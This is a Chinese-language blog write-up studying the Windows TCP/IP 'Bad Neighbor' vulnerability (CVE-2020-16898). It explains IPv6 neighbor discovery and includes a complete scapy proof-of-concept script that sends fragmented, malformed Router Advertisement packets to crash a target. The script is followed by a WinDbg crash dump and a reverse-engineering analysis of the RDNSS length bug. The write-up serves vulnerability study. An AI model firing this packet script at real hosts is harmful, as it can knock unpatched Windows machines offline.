










# CVE-2020-16898 "Bad Neighbor " Windows TCP/IP 远程代码执行漏洞学习 - 第七子 007 - 博客园

> 原文：[`www.cnblogs.com/theseventhson/p/14004712.html`](https://www.cnblogs.com/theseventhson/p/14004712.html)

　　一、该漏洞和 router advertisement 相关，先来学习一下相关协议；

　　IPV4 时代，如果想探测其他主机是否存活，要么用 ARP(一般是局域内网)，要么用 ICMP(一般是公网)。但是在 IPV6 时代改用了 Neighbor Discovery Protocol（简称 NDP），该协议定义了使用 ICMPv6 报文实现地址解析，跟踪邻居状态，重复地址检测，**路由器发现**以及重定向等功能。

　　1、先介绍个简单的地址解析：IPV4 时代，当需要和其他主机通信时，需要知道对方的 MAC 地址，否则交换机是没法转发帧的，这时就需要 ARP 协议，让目标主机告知其 MAC 地址；IPV6 时代，NDP 实现了该功能；NDP 在将 IP 地址解析为 MAC 地址时用了两种报文：邻居请求报文 NS（Neighbor Solicitation）和邻居通告报文 NA（Neighbor Advertisement），作用分别类似于 ARP 请求和 ARP 应答，整个过程说明如下：

        

　　用 wireshark 抓包如下：

*   NS 包：Type:Neighbor Solicitation(135)，源 MAC 是 00:e0:fc:7a:28:89，源 IP 是 2000::1

　　  

*   NA 包：Type:Neighbor Advertisment(136)，目标 MAC 是 00:e0:fc:dc:5e:81

　　  

 　　其中有 3 个 flags 字段，含义如下：

*   R：路由器标记。当置 1 时，R 位指出发送者是路由器。R 位由 Neighbor Unreachability Detection 使用，用于检测改变为主机的路由器。
*   S：请求标记。当置 1 时，S 位指出通告被发送以响应来自目的地地址的 Neighbor Solicitation。S 位用作 Neighbor Unreachability Detection 的可达性确认。在多播通告和非请求单播通告中置 0。
*   O：替代标记。替代标志，1 表示通告中的信息替代缓存，如更新链路层地址时，对于任播的回应则不应置位。在针对任播地址的请求通告中，以及在请求的前缀通告中它不能被置 1。在其他请求通告中和在非请求通告中它应当被置 1；

　　2、NDP 协议除了地址解析，还能用于路由器发现。windows 对通过该协议接受到的数据包（Router Advertisement 包）处理不当，导致了远程代码执行漏洞，也就是本文的主题漏洞：CVE-2020-16898；

　　路由器发现：用来发现与本地链路相连的设备，并获取与地址自动配置相关的前缀和其他配置参数；说直白一点，就是路由器通过发送广播报文或发送给指定的路由器邻居以主动把自己介绍给网段内的其他路由器，**用以更新路由表，便于后续更高效、快速地转发数据报**；和地址解析类似，路由发现也有 Router Advertisement 和 Router Solicitation 两种报文。

*   路由器请求 RS（Router Solicitation）报文：很多情况下主机接入网络后希望尽快获取网络前缀进行通信，此时主机可以立刻发送 RS 报文，网络上的设备将回应 RA 报文。RS 报文的 Tpye 字段值为 133，如下：

*   路由器通告 RA（Router Advertisement）报文：每台设备为了让二层网络上的主机和设备知道自己的存在，定时都会组播发送 RA 报文，RA 报文中会带有网络前缀信息，及其他一些标志位信息。RA 报文的 Type 字段值为 134。
    

      路由器发现功能如下图所示：

         

　　3、整个 NDP 概括如下：

          

 　　二、上个月爆出的 CVE-2020-16898 "bad neighbor" 漏洞，就和 NDP 相关。远程攻击者通过构造特制的 ICMPv6 Router Advertisement（路由通告）数据包 ，并将其发送到远程 Windows 主机上，可造成远程主机蓝屏；

 　　1、先来复现一波漏洞，有个直观的感受。网上有各种配置教程，主要是打开靶机（一般用虚拟机）的 ipv6，然后配置 exp.py 中的靶机和攻击机 ipv6 地址，然后给靶机发送特殊的数据，造成靶机内存溢出，进而蓝屏；整个 exp.py 代码不多，如下：

```
from scapy.all import *
from scapy.layers.inet6 import ICMPv6NDOptEFA, ICMPv6NDOptRDNSS, ICMPv6ND_RA, IPv6, IPv6ExtHdrFragment, fragment6

v6_dst = "fd15:4ba5:5a2b:1008:ac63:9284:85b2:d191" v6_src = "fe80::89f4:90a3:4bab:16bc%26" p_test_half = 'A'.encode()*8 + b"\x18\x30" + b"\xFF\x18" p_test = p_test_half + 'A'.encode()*4 c = ICMPv6NDOptEFA()

e = ICMPv6NDOptRDNSS()
e.len = 21 e.dns = [ "AAAA:AAAA:AAAA:AAAA:FFFF:AAAA:AAAA:AAAA", "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA", "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA", "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA", "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA", "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA", "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA", "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA", "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA", "AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA:AAAA" ]
aaa = ICMPv6NDOptRDNSS()
aaa.len = 8 pkt = ICMPv6ND_RA() / aaa / \
      Raw(load='A'.encode()*16*2 + p_test_half + b"\x18\xa0"*6) / c / e / c / e / c / e / c / e / c / e / e / e / e / e / e / e

p_test_frag = IPv6(dst=v6_dst, src=v6_src, hlim=255)/ \
              IPv6ExtHdrFragment()/pkt

l=fragment6(p_test_frag, 200) for p in l:
    send(p)
```

     循环发送了 13 次：

        

　　wireshark 抓包：可以看到发送了好多 ICMPV6 Option 的包，并且 Recursive DNS server 的值已经被改成我们自己设定好的 A 了；

 　　

　　由于靶机挂在了 windbg，捕获了异常，靶机并未蓝屏，但已经卡死，无法做任何操作；从堆栈的数据看，大部分都被我们构造的 a 填满，从 TCPIP 模块的 Ipv6pHandleRouterAdvertisement+0xe01 偏移开始出现异常，进而触发了 securityCheck，下面就从这里开始按图索骥，顺藤摸瓜！

　　

        

 　　这里先保留一些有用的信息：

```
Arguments:
Arg1: 0000000000000002, Stack cookie instrumentation code detected a stack-based
    buffer overrun.
Arg2: fffff802abe3bfb0, Address of the trap frame for the exception that caused the bugcheck
Arg3: fffff802abe3bf08, Address of the exception record for the exception that caused the bugcheck
Arg4: 0000000000000000, Reserved
```

```
TRAP_FRAME:  fffff802abe3bfb0 -- (.trap 0xfffff802abe3bfb0)
NOTE: The trap frame does not contain all registers.
Some register values may be zeroed or incorrect.
rax=0000000000000005 rbx=0000000000000000 rcx=0000000000000002 rdx=00000000000001ff rsi=0000000000000000 rdi=0000000000000000 rip=fffff8097dd97b45 rsp=fffff802abe3c148 rbp=fffff802abe3c250
 r8=fffff802abe3c268  r9=0000000000000110 r10=0000000000001001 r11=0000000000000000 r12=0000000000000000 r13=0000000000000000 r14=0000000000000000 r15=0000000000000000 iopl=0         nv up ei pl nz na pe nc
tcpip!_report_gsfailure+0x5:
fffff809`7dd97b45 cd29            int     29h
Resetting default scope

EXCEPTION_RECORD:  fffff802abe3bf08 -- (.exr 0xfffff802abe3bf08)
ExceptionAddress: fffff8097dd97b45 (tcpip!_report_gsfailure+0x0000000000000005)
   ExceptionCode: c0000409 (Security check failure or stack buffer overrun)
  ExceptionFlags: 00000001 NumberParameters: 1 Parameter[0]: 0000000000000002 Subcode: 0x2 FAST_FAIL_STACK_COOKIE_CHECK_FAILURE
```

　　2、通过 IDA 打开 tcpip.sys，找到异常后最后一个函数 Ipv6pHandleRouterAdvertisement，并且根据偏移 0xe01 定位到出问题的代码（也就是 0x1C0029221 这里）：确实是在 security_check 这里。结合上面爆出的 gsfailure，应该是调用 _security_check_cookie 时导致了 gsfailure；

　　

 　　Ipv6pHandleRouterAdvertisement 里面调用了很多其他函数，究竟是哪个函数导致了 gsfailure 了？我们人为构造的数据报在内核解析后，其中有个字段叫 type:recursive dns server（25）【上面的 wireshark 抓包有】，这个字段的值是 25，16 进制就是 0x19，刚好在 Ipv6pHandleRouterAdvertisement 的 while(1)循环中有 case 0x19 这个选项，里面调用了一个叫做 Ipv6pUpdateRDNSS 的函数，从名字看是更新 RDNS 的，刚好 ICMPV6 option 发送的就是 recursive dns server 的地址，所以大胆猜测：在 case 0x19 这个分支，接受 type 是 recursive dns server 的 option 包，然后解析、更新 RDNS 的值，接下来我们进一步分析这个函数；

　　

　　进入 Ipv6pUpdateRDNSS 函数后，有一行关键代码标红如下：这一行计算 IPV6 地址数量。这里的 V9 来自我们发送的 IPV6 Option 包的 length 字段。从上面 wireshar 抓包的情况看，该字段是 8，那么得到的 IPV6 地址数量就是（8-1)/2=3；

 　　

 　　因此会按照 3*0x18（一个 ipv6 地址加上 Type/Length/ Reserved/Lifetime）= 0x48 的偏移进行解析下一个 Option，这 0x48 字节刚好是第一个 option 的长度。也就是说，Ipv6pHandleRouterAdvertisement 的函数会直接从下面第三个红框处解析下一个 option：很明显，这里的 RDNS 是错的，并且还很多，直接还长达 168byte。并且还有 11 个同样的 option，足以覆盖栈的 stack cookie（看上面 windbg 的 kv 栈回溯）；

 　　

　　总结： 这类漏洞的原理很简单：接受外部的字符串后未作长度或内容检查，导致分配的内存不够存储接受的数据，进而让接受的数据超过分配的缓存长度，覆盖了内核其他代码和数据，导致蓝屏；更狠一点的可以导致 RCE

参考:

1、[`www.4hou.com/posts/jLlY`](https://www.4hou.com/posts/jLlY)  CVE-2020-16898 "Bad Neighbor " Windows TCP/IP 远程代码执行漏洞分析

2、[`cert.360.cn/report/detail?id=771d8ddc2d703071d5761b6a2b139793`](https://cert.360.cn/report/detail?id=771d8ddc2d703071d5761b6a2b139793)  CVE-2020-16898: Windows TCP/IP 远程执行代码漏洞分析

3、[`cshihong.github.io/2018/01/29/IPv6%E9%82%BB%E5%B1%85%E5%8F%91%E7%8E%B0%E5%8D%8F%E8%AE%AE/`](https://cshihong.github.io/2018/01/29/IPv6%E9%82%BB%E5%B1%85%E5%8F%91%E7%8E%B0%E5%8D%8F%E8%AE%AE/)    IPv6 邻居发现协议

4、[`tools.ietf.org/html/rfc8106`](https://tools.ietf.org/html/rfc8106)  IPv6 Router Advertisement Options for DNS Configuration

5、[`github.com/komomon/CVE-2020-16898-EXP-POC`](https://github.com/komomon/CVE-2020-16898-EXP-POC)  漏洞利用 POC

6、[`www.dazhuanlan.com/2019/11/18/5dd20c8870856/`](https://www.dazhuanlan.com/2019/11/18/5dd20c8870856/)   Stack Cookie 运行原理